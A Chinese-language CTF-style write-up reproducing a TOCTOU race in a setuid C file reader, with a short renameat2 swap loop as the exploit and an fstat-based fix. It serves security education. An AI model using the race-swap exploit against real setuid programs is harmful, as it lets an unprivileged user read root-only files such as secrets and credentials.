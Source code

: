 今天有点无聊在 YouTube 上瞎看

看到了 liveoverflow 的一个视频，提到 [TOCTOU](https://cwe.mitre.org/data/definitions/367.html) ，所以打算复现一下

via: 

demo 代码：

via: https://gist.github.com/LiveOverflow/590edaf5cf3adeea31c73e303692dec0

```c
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
    int fd;
    int size = 0;
    char buf[256];

    if(argc != 2) {
        printf("usage: %s <file>\n", argv[0]);
        exit(1);
    }

    struct stat stat_data;
    if (stat(argv[1], &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);
    
    if(fd <= 0)
    {
        fprintf(stderr, "Couldn't open %s\n", argv[1]);
        exit(1);
    }

    do {
        size = read(fd, buf, 256);
        write(1, buf, size);
    } while(size>0);

}
```

题目：

flag 位于 根目录：/flag

所有者：root

权限：0600 （只有所有者能读写）

```bash
# r00t @ FakeArch in / [0:41:05] 
$ ls -l /flag    
-rw------- 1 root root 17  6月 25 23:19 /flag
```

给出的一个由上面源代码编译出来的 可执行文件，可执行文件的设置了 s 权限

```c
# r00t @ FakeArch in ~ [0:42:44] 
$ ls -l /tmp/readflag
-rwsr-sr-x 1 root root 17096  6月 26 00:41 /tmp/readflag
```

现在要用这个 可执行文件 去读取 flag

代码看起来是没有什么问题的，理论上我们不能读取 /flag 文件 的内容，因为

```c
    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }
```

这个检查，检查了文件的 st_uid ，flag 文件的所有者是 `root`，所以 `readflag` 即使带了 `s` 权限，还是读取不了 `flag` 的内容

可以看 `man 2 stat` 中 对 `stat` 结构的描述，这个检查的意思是检查 所有者的 id 是不是 0 （也就是是不是 root，这个毋庸置疑，flag 文件的所有者肯定是 root）

```c
struct stat {
    dev_t     st_dev;         /* ID of device containing file */
    ino_t     st_ino;         /* Inode number */
    mode_t    st_mode;        /* File type and mode */
    nlink_t   st_nlink;       /* Number of hard links */
    uid_t     st_uid;         /* User ID of owner */
    gid_t     st_gid;         /* Group ID of owner */
    dev_t     st_rdev;        /* Device ID (if special file) */
    off_t     st_size;        /* Total size, in bytes */
    blksize_t st_blksize;     /* Block size for filesystem I/O */
    blkcnt_t  st_blocks;      /* Number of 512B blocks allocated */

    /* Since Linux 2.6, the kernel supports nanosecond
       precision for the following timestamp fields.
       For the details before Linux 2.6, see NOTES. */

    struct timespec st_atim;  /* Time of last access */
    struct timespec st_mtim;  /* Time of last modification */
    struct timespec st_ctim;  /* Time of last status change */

#define st_atime st_atim.tv_sec      /* Backward compatibility */
#define st_mtime st_mtim.tv_sec
#define st_ctime st_ctim.tv_sec
};
```

怎么才能绕过这个检查

可以试试给 `flag` 文件创建一个链接

```bash
# r00t @ FakeArch in ~ [23:29:56] 
$ ls -l /flag
-rw------- 1 root root 17  6月 25 23:19 /flag

# r00t @ FakeArch in ~ [23:30:06] 
$ ln -s /flag /tmp/flag

# r00t @ FakeArch in ~ [23:30:15] 
$ ls -l /tmp/flag     
lrwxrwxrwx 1 r00t r00t 5  6月 25 23:30 /tmp/flag -> /flag
```

看到这个链接的所有者是 `r00t`  （我系统上的一个普通用户），试试看通过 软链接 去读取文件

```bash
# r00t @ FakeArch in ~/code/sec/toctou [0:06:22] C:1
$ ./readflag /tmp/flag
Failed to stat /tmp/flag: Permission denied
```

其实，如果你读过 `Linux` 内核关于获取文件 `uid` 部分的源码，你就知道这个方法是行不通的

再次审计代码

```c
    struct stat stat_data;
    if (stat(argv[1], &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);
```

这个写法存在一个 条件竞争(Race condition) 的漏洞

用的是 stat 函数，通过文件名去获取文件的 stat 结构，然后再判断文件的所有者，如果所有者不是 root 的话就打开它，这里从获取文件 stat 到读取并不是原子性操作。

假设现在传入的是 `/tmp/A` 文件（`st_uid=1000`），它的所有者是 `hacker(uid=1000)`，在执行完 `stat(argv[1], &stat_data)` 之后的那一个瞬间，我用另一个程序把 `/tmp/flag` （ /flag 的软链接 `st_uid=1000`） 重命名为 `/tmp/A`  这样的话，在 `if` 的检测中检查的是原本的那个 A 文件的 `st_uid`，而走到 `open` 的时候 argv[1] 虽然也是 `/tmp/A` 但是打开的却是原本的 `/tmp/flag` 文件，而这个文件是 `/flag` 的软链接，这样我们就能读出 `/flag` 的内容

这个需要很快去操作，把上面的 /tmp/flag （因为我们是普通用户不能直接操作 flag 文件，所以我们需要一个指向它的链接） 换成 /tmp/A





exp:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```





fix:

```c
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
    int fd;
    int size = 0;
    char buf[256];

    if(argc != 2) {
        printf("usage: %s <file>\n", argv[0]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);

    if(fd <= 0)
    {
        fprintf(stderr, "Couldn't open %s\n", argv[1]);
        exit(1);
    }

    struct stat stat_data;
    if (fstat(fd, &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    
    do {
        size = read(fd, buf, 256);
        write(1, buf, size);
    } while(size>0);

}
```


